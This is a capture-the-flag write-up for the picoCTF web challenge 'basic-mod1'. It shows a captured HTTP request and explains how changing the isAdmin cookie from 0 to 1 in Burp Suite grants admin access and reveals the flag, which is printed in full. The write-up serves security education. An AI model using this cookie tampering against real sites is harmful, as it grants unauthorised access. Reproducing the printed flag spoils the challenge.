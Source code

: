 # basic-mod1

### Links

- Challenge in [picoCTF]https://play.picoctf.org/practice/challenge/288)
### Additional Resources

- [Burpsuite](https://portswigger.net/burp/communitydownload)
  
### Steps

---
#### Challenge Description & Hints
Go to this [website](http://saturn.picoctf.net:57741/) and see what you can discover. The only hints asks if we know how to modify cookies.
#### Website

We are directed to a simple website that looks like this:

![web page](website.png)

#### Approach

When we click on the button we are redirected to a php page and are prompted with the following: *We apologize, but we have no guest services at the moment.*

#### Burpsuite

I used Burpsuite to look at the http request based on the challenge hint that was given and found out that the button uses a GET request and it looks like this:

```
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:57741
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://saturn.picoctf.net:57741/
Cookie: isAdmin=0
Upgrade-Insecure-Requests: 1
```

#### Cookie

If you pay attention you can see that in the cookie section there is *isAdmin* with the value of 0.

The request can be sent to the buprsuite repeater to be modified, I changed the value from a 0 to a 1 and sent it.

#### Response

After sending the modified request we can analyze the response, which looks like this:

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 03 Oct 2023 14:45:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 79

<html>
<body>

<p>picoCTF{gr4d3_A_c00k13_5d2505be}</p>

</body>
</html>
```


And there is the flag!

***picoCTF{gr4d3_A_c00k13_5d2505be}***
